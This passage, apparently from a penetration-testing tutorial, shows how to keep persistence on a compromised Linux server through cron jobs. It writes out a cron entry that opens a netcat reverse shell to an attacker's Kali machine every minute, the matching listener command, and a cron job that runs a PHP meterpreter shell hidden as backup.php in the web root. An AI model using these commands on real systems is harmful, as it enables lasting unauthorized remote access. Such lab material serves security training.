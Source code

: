        crontab -e

1. We can now add a new cron job that will execute a netcat command every minute, this can be done by adding the following line to the crontab file:

        * * * * * nc <KALI-IP> <PORT> -e /bin/sh

    As shown in the following screenshot, this cron job will connect to a netcat listener every minute.

    ![crontab line with netcat command](crontab-line-with-netcat-command.png "crontab line with netcat command")

1. After adding the cron job, you will need to save the file.

1. We can now set up our netcat listener by running the following command on Kali:

        nc -nvlp <PORT>

    After one minute, the cron job will be executed and you should receive a reverse shell on your netcat listener as shown in the following screenshot.

    ![netcat listener receiving crontab netcat connection](netcat-listener-receiving-crontab-netcat-connection.png "netcat listener receiving crontab netcat connection")

1. Alternatively, instead of using netcat to obtain a reverse shell, we can create a cron job that executes the PHP meterpreter shell we created and uploaded in the previous section. This can be done by adding the following line to the crontab file:

        * * * * * php -f /var/www/html/backup.php

    As shown in the following screenshot, after one minute you should receive a meterpreter session.

    ![Meterpreter session after backup.php exploit executed from crontab](meterpreter-session-after-backup-php-exploit-executed-from-crontab.png "Meterpreter session after backup.php exploit executed from crontab")

    We have now been able to successfully setup persistence on the target server by creating a cron job that connects back to our listener, additionally, we were also able to setup a cron job that executes the PHP meterpreter shell we uploaded to the target server.
